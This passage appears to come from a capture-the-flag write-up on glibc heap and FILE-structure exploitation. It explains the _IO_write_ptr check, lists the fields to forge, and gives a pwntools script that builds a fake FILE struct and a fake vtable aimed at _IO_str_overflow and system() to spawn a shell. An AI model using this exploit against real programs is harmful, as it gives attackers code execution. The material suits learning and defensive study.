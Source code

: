 But wait , we have one more restriction before getting control flow.

```c
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
  {
    // enter target condition
  }
```
*flush_only* is 0, so we want *pos >= _IO_blen(fp)*. 

This can be achieved by setting *_IO_write_ptr = (binsh - 100)/2* and *_IO_write_base = 0*.

Let's nicely recall what all need to go ahead now

1. set *IO_buf_base* to 0.
2. set *IO_buf_end* to *(binsh-100)/2*
3. set *IO_write_ptr* to *(binsh-100)/2*
4. set *IO_write_base* to 0
5. set vtable to *IO_str_overflow-0x10*

```py
    free(0) # We free this chunk and allocate it back as it is closest to our original file structure

    binsh = libc_base + LIBC.search('/bin/sh\x00').next()  
    system = libc_base + LIBC.symbols['system']
    io_str_overflow_ptr_addr = libc_base + LIBC.symbols['_IO_file_jumps'] + 0xd8

    #Fake File Structure
    fake_vtable = io_str_overflow_ptr_addr - 2*8
    fake_file_str = p64(0xfbad1800) + p64(heap_base+0x1430)*3
    fake_file_str += p64(0)
    fake_file_str += p64((binsh-100)/2+1)  #IO_write_ptr
    fake_file_str += p64(heap_base + 0x1430)
    fake_file_str += p64(0) #IO_buf_base
    fake_file_str += p64((binsh-100)/2)     #IO_buf_end
    fake_file_str += p64(0)*4
    fake_file_str += p64(libc_base + LIBC.symbols['_IO_2_1_stderr_'])
    fake_file_str += p64(3)
    fake_file_str += p64(0)*2
    fake_file_str += p64(heap_base + 0x12e0) 
    fake_file_str += p64(0xffffffffffffffff)
    fake_file_str += p64(0)
    fake_file_str += p64(heap_base + 0x12f0)
    fake_file_str += p64(2) + p64(3) + p64(0)
    fake_file_str += p64(0x00000000ffffffff)
    fake_file_str += p64(0xffffffffffffffff) + p64(0)
    fake_file_str += p64(fake_vtable)
    fake_file_str += p64(system)
    #Add the fake file structure
    add(123,'f'*8 + fake_file_str)
    gdb.attach(io)
    ret()
    send_commands(1233)
    io.interactive()

```
